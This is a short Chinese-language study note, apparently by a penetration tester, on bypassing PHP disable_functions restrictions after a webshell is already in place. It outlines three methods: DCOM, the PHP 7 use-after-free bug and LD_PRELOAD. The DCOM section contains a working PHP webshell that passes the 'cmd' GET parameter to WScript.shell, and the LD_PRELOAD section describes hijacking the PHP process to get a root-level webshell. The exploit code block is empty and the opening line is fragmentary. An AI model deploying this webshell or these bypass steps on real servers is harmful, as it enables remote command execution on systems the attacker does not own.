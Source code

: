 我们的 disable_function 也就是禁止我们去执行我们的

## 第零步：
打开我们的 phpinfo 文件，查看 php 禁止了哪些条件。

## DCMO 绕过：
### 前提 ：
我们查看靶机的 PHPinfo, 要求我们的 dcom 组件是已经开启了的。

### 步骤：
第一步：利用我们的之前已经存在的 webshell，将我们的脚本上传到我们的文件当中，命名为我们的 `xxxx.php`

第二步：直接调用我们的新的 `xxxx.php` 作为我们的新webshell

### 脚本：
```
<?php
$command = $_GET['cmd'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```

## UAF 漏洞绕过
### 前提：
我们存在我们的类，并且我们的 php 版本在 7.0 以上

我们的方法是利用了我们的 `php7.0` 中存在的一个漏洞：由于 php7.0 中的垃圾回收机制造成的 `UAF` 漏洞。

这里，我们可以使用我们的 github 上已有的脚本来执行我们的对应的方法。
```

```



## LD_PRELOAD 绕过
LD_PRELOAD 是 Linux 中的一个环境变量，影响我们的程序的连接，允许个人在定义在程序运行前优先执行的程序或者动态链接库。

总的来说就是= `LD_PRELOAD` 指定的动态链接库文件，会在其它文件调用之前先被调用，借此可以达到劫持的效果。

原理：上传.so 脚本（劫持 php 程序，重新启动一个新的 php 进程接收.antproxy.php 请求）和.antproxy.php
如果网站服务器可以提升权限至 root，可以通过 root 用户执行 `php -S 0.0.0.0:9090` 通过9090端口访问的 webshell 即为 root 权限

### 复现方法：
1. 直接利用蚁剑插件来进行绕过
![[Pasted image 20240425115905.png]]